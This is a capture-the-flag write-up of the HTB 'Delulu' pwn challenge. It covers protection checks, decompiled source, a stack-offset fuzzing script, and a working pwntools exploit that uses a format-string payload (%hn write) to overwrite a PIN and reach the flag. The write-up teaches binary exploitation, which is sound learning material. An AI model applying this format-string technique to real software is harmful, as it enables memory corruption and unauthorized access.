## Delulu [Very Easy]
### Initial Analysis
As usual, we start by checking the binary's protections and I particularly like to run [cwe_checker](https://github.com/fkie-cad/cwe_checker) on all challenges so we have a starting point in case nothing comes to mind after the analysis.
```bash
$ checksec delulu_patched
[*] '/home/flame/0x/ctf/htb-cyber-apocalypse-2024/pwn/delulu/challenge/delulu_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

$ cwe_checker ./delulu_patched
[CWE134] (0.1) (Externally Controlled Format String) Potential externally controlled format string for call to printf at 001014cb
```

As mentioned before, `cwe_checker` can be very useful in some cases, in this case it already detects a possible format string vulnerability in `printf`, and looking at the `checksec` output, we see that the binary has all possible protections detectable, so it's probably not a buffer overflow or anything like that.
In this challenge, we also have the source code for the binary, so we don't need the reverse engineering phase.
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 pin[2]; // [rsp+0h] [rbp-40h] BYREF
  __int64 buf[6]; // [rsp+10h] [rbp-30h] BYREF

  buf[5] = __readfsqword(40u);
  pin[0] = 0x1337BABE;
  pin[1] = (__int64)pin;
  memset(buf, 0, 32);
  read(0, buf, 31uLL);
  printf("\n[!] Checking.. ");
  printf((const char *)buf);
  if ( pin[0] == 0x1337BEEF )
    delulu();
  else
    error("ALERT ALERT ALERT ALERT\n");
  return 0;
}

unsigned __int64 delulu()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  int fd; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(40u);
  fd = open("./flag.txt", 0);
  if ( fd < 0 )
  {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
    exit(1);
  }
  printf("You managed to deceive the robot, here's your new identity: ");
  while ( read(fd, &buf, 1uLL) > 0 )
    fputc(buf, _bss_start);
  close(fd);
  return v3 - __readfsqword(0x28u);
}
```

The program simply checks if the value of pin is equal to `0x1337beef`, but this variable is already set to a value previously, the trick in this case is to overwrite the value of the variable in the stack by means of a **format string vulnerability**.

First of all, we basically need to find the position of the variable in the stack

Normally, in binaries with **format string vulnerability**, I use a fuzzing script similar to this one to map the values on the stack, bringing along their offset
```python
from pwn import *
elf = context.binary = ELF("./delulu_patched", checksec=False)

for i in range(100):
    try:
        p = process(level="error")
        p.sendlineafter(b">> ", "%{}$p".format(i).encode())

        result = p.recvuntil(b"[-]", drop=True)
        result = result.strip().split()[2]
        
        print(str(i) + ": " + str(result))
        p.close()
    except EOFError:
        pass
```

We can see that the value of the variable is in position `6` of the stack, the next address, at offset `7`, must be the actual address of the variable
```bash
~/delulu $ python3 fuzz.py
0: b'%0$p'
1: b'0x7fff0372f270'
2: b'(nil)'
3: b'0x7887ccb14887'
4: b'0x10'
5: b'0x7fffffff'
6: b'0x1337babe'
7: b'0x7fff2b59d3b0'
```

To confirm this, we can change the type of value we want to return in the format string payload, we'll change `$s` (string)
```bash
~/delulu $ python3 fuzz.py
0: b'%0$s'
1: b'[!]'
2: b'(null)'
3: b'H='
7: b'\xbe\xba7\x13'
```

Now we can see that the value of offset `7` in string, is the value of the `PIN` variable, knowing the offset to the variable address, we need to overwrite this value in the stack

>Some useful resources:
https://vickieli.dev/binary%20exploitation/format-string-vulnerabilities/#overwriting-memory-at-any-location
https://axcheron.github.io/exploit-101-format-strings/#writing-to-the-stack

Since we only need to change the bytes of the variable (1337**babe** > 1337**beef**), the process becomes faster and easier, we can do it in two ways:
Using the hexadecimal value we want to overwrite and the position 
```python
payload = f"%{0xbeef}c%7$hn"
```

Or using the decimal representation
```python
payload = "%48879x%7$hn"
```

Note that in both examples we are using `$hn` instead of just $n, because we only want to overwrite the first **2 bytes** **(little-endian)** of the variable.

| Modifier | Description                                                       | Example                                                    |
| -------- | ----------------------------------------------------------------- | ---------------------------------------------------------- |
| i$       | Direct parameter access; Specifies the parameter to use for input | `%2$x` : hex value of second parameter                     |
| %ix      | Width modifier. Specifies the minimum width of the output.        | `%8x`: Hex value taking up 8 columns                       |
| %hh      | Length modifier. Specifies that length is sizeof(char)            | `%hhn`: Writes 1 byte to target pointer                    |
| %h       | Length modifier. Specifies that length is sizeof(short)           | `%hn`: Writes 2 bytes (in 32 bit System) to target pointer |
### Solution
By understanding all the steps, we can put together the final exploit, which will look something like this
```python
#!/usr/bin/env python3
from pwn import *

def start(argv=[], *a, **kw):
    """Start the exploit against the target."""
    if args.GDB:
        return gdb.debug(
            [exe] + argv, gdbscript=gdbscript, *a, **kw
        )
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

exe = "./delulu_patched"
elf = context.binary = ELF(exe, checksec=False)

p = start()

payload = f"%{0xbeef}c%7$hn"

p.sendlineafter(b'>>', bytes(payload, 'latin-1'))
flag = p.recvall().strip().split()[-1].decode()
info("Flag: " + flag)
```

The result is
```bash
~/delulu $ python3 solve.py
[+] Starting local process './delulu_patched': pid 127360
[+] Receiving all data: Done (47.83KB)
[*] Process './delulu_patched' stopped with exit code 0 (pid 127360)
[*] Flag: HTB{f4k3_fl4g_4_t35t1ng}
```
